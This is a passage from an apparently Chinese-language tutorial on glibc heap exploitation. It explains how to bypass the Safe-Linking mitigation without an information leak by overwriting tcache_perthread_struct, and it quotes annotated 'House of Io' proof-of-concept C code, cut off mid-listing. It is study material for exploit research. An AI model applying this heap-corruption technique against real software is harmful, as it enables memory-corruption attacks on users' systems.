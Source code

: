 ```c
}
```



### 不用信息泄露绕过Safe-Linking 机制

每个线程通过一个tcache_perthread_struct线程本地变量保存tcache bin以及相关的chunk计数。tcache_perthread_struct的初始化过程如下，在分配堆块时，会先分配tcache_perthread_struct结构体，大小为0x290，在堆块的最开始位置。

```c
victim = _int_malloc (ar_ptr, bytes);

[…]

if (victim)
{
        tcache = (tcache_perthread_struct *) victim;
        memset (tcache, 0, sizeof (tcache_perthread_struct));
}
```

tcache_perthread_struct的结构如下：

```c
typedef struct tcache_perthread_struct
{
  char counts[TCACHE_MAX_BINS];
  tcache_entry *entries[TCACHE_MAX_BINS];
} tcache_perthread_struct;
```

count是一个字节数组（共64个字节，对应64个tcache链表），其中每一个字节表示的是tcache每一个链表中有多少个元素。entries是一个指针数组（共64个元素，对应64个tcache链表， tcache bin中最大为0x400字节），每一个指针指向的是对应tcache_entry结构体的地址。

如果我们能够修改tcache_perthread_struct这个结构体的内容，就可以完全控制malloc的内存分配。

（1）因为tcache_perthread_struct结构体，在堆块的最开始位置，可以通过计算偏移，通过当前堆块的地址减去偏移，得到tcache_perthread_struct的地址。

（2）在释放一个堆块后，会在堆块的bk位置填充tcache_perthread_struct的地址。

![image-20200720151139578](..\image\2020-06-04-Safe-Linking机制分析\5.png)

#### demo分析

[houseofio.c](https://github.com/Ruia-ruia/Exploits/blob/master/houseofio.c)

```c
/* House of Io for Malloc in Glibc 2.32 - safe-linking bypass
abstraction layer high enough to be be universal, though somewhat 
optimistic in terms of the availability of exploit primitives */

#include <stdio.h>
#include <stdlib.h>

unsigned long victim = 1;

int main()
{
        long int *a, *b, *c;

        a = malloc(20);
        b = malloc(20);
        free(b);// 释放b堆块后，b堆块的bk被覆盖为tcache_perthread_struct结构体的地址
        a = *(b + 1); // 泄露得到tcache_perthread_struct结构体的地址
        *a = 2; // 修改counts[0]为2
        long int *z = (char *)a + 0x80;// 偏移0x80的部分是entries指针数组位置

        *z = &victim; // 将entries[0]填充为victim变量的地址，此时会将victim变量的地址当成一个被释放的堆块，大小为0x20
```